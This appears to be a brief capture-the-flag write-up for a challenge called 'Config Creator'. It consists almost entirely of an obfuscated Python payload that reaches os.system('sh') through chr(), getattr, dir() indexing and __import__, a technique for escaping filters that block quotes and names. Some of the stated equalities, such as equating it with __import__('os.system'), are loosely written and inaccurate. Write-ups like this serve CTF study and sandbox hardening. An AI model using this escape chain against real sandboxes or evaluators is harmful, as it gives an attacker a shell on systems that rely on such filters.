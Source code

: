 # Write-up | Config Creator

getattr(chr(111),dir(chr(111))[0])(chr(115)) == "os"

__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))) == __import__("os")

dir(__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))))[269] == "system"

getattr(__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))),dir(__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))))[269]) == __import__("os.system")

getattr(chr(115),dir(chr(115))[0])(chr(104)) == "sh"

getattr(__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))),dir(__import__(getattr(chr(111),dir(chr(111))[0])(chr(115))))[269])(getattr(chr(115),dir(chr(115))[0])(chr(104))) == __import__("os.system")("sh")



Please see *exploit/exploit.py* for the full automated exploit.

